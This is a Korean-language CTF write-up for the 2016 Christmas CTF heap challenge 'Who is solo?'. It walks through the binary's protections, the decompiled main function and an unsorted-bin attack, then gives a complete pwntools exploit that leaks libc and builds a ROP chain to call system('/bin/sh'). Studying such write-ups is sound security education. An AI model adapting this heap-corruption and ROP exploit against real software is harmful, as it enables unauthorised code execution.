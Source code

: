 ```yaml
---
title: "2016 Christmas CTF Who is solo?"
date: 2020-1-19
ctf: Christmas CTF
layout: post
published : false
---
```


64비트 바이너리고 Partial RELRO, NX, FORTIFY가 걸려있다.

```
[*] '/vagrant/ctfs/solo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

메뉴는 5가지고 전형적인 힙 문제의 메뉴다. 

```
1. malloc
2. free
3. list
4. login
5. exit
```

함수들은 아래와 같은 기능들을 한다.

```
sub_4008D0 : print menu
sub_400930 : malloc only 4 chunks
sub_400B60 : free chunk
```

메인함수다.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+Ch] [rbp-42Ch]
  void *buf; // [rsp+10h] [rbp-428h]
  char v6; // [rsp+18h] [rbp-420h]
  char v7; // [rsp+20h] [rbp-418h]
  char v8; // [rsp+28h] [rbp-410h]
  char v9; // [rsp+30h] [rbp-408h]

  setvbuf(stdout, 0LL, 2, 0x400uLL);
  sub_4008B0();
  v4 = 0;
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        do
        {
          sub_4008D0();
          __isoc99_scanf("%d", &v4);
        }
        while ( v4 == 3 );
        if ( v4 > 3 )
          break;
        if ( v4 == 1 )
        {
          sub_400930(&buf, &v6, &v7, &v8);      // 1. malloc
        }
        else
        {
          if ( v4 != 2 )
            return 0LL;
          sub_400B60(&buf, &v6, &v7, &v8);      // 2. free
        }
      }
      if ( v4 != 4 )
        break;
      if ( qword_602080 )                       // 4. login
      {
        __printf_chk(1LL, "Input password: ");
        read(0, &v9, 2000uLL);                  // vuln
      }
      else
      {
        puts("Login failed");
      }
    }
    if ( v4 != 0x31337 )
      break;
    __printf_chk(1LL, "Modify Data: ");
    read(0, buf, 300uLL);
  }
  return 0LL;
}
```

unsorted bin 취약점을 이용한 문제다. 

malloc(1,200,'AAAA'), malloc(2,200,'BBBB'), malloc(3,200,'CCCC') 할당

free(2) 해주면 fd,bk에는 main_arena+88주소가 적힌다. 

modify메뉴로 free된 2번 청크의 bk를 check해주는 (전역변수-16)로 덮어 fd,bk 조작해 원하는 주소에 값을 씀

전역변수 -16 해주는 이유는 unlink때 `FD->bk=BK; BK->fd=FD;`로 현재 chunk bk + 16위치에 현재 fd값이 들어가기 때문에 덮어쓸 주소 -16해준다. bk에 check -16을 넣어주면 unlink과정에서 check+0에 fd가 들어간다.

malloc(4,200,'DDDD) 할당

그러면 0으로 덮여있던 check는 main_arena + 88의 주소가 들어가있다.

Login 메뉴를 사용가능하다. 취약점 터지는 `read(0, &v9, 2000uLL);` 에서 rop해주면 됨.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./solo')
p = process('./solo')
libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
prdi = 0x00000000004008a0 # pop rdi ; ret
prsi_r15 = 0x0000000000400d11 # pop rsi ; pop r15 ; ret
check = 0x0000000000602080
main = 0x0000000000400680

# chunk max : 3
def malloc(num,size,data):
	sla('$','1')
	sla(':',str(num)) # Allocate Chunk Number:
	sla(':',str(size)) # Input Size:
	sa(':',data) # Input Data:

def free(num):
	sla('$','2')
	sla(':',str(num)) # Free Chunk number:

def modify(data):
	sla('$','201527')
	sa(':',data) # Modify Data:

def login(pay):
	sla('$','4')
	sla(':',pay) # Input password: 

def exit():
	sla('$','5')

# malloc -> num 1,2,3
malloc(1,200,'AAAAAAAA')
malloc(2,200,'BBBBBBBB')
malloc(3,200,'CCCCCCCC')
# free -> num 2
free(2)
#raw_input()
# modify -> num 2 -> bk(check - 16)
p1 = 'A'*200
p1 += p64(0xd1) # size
p1 += p64(0x0) # fd
p1 += p64(check - 0x10) # bk
modify(p1)
# malloc -> num 4
malloc(4,200,'DDDDDDDD')
p2 = 'A'*0x408
p2 += p64(prdi) + p64(check) + p64(e.plt['puts'])
p2 += p64(main)
login(p2) # leak main_arena + 88
exit()
libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - 88 - 0x3c4b20
log.info('libc_base : ' + hex(libc_base))
# system('/bin/sh')
p3 = 'A'*0x408
p3 += p64(prdi) + p64(libc_base + libc.search('/bin/sh\x00').next()) + p64(libc_base + libc.symbols['system'])
login(p3)
exit()

p.interactive()
```


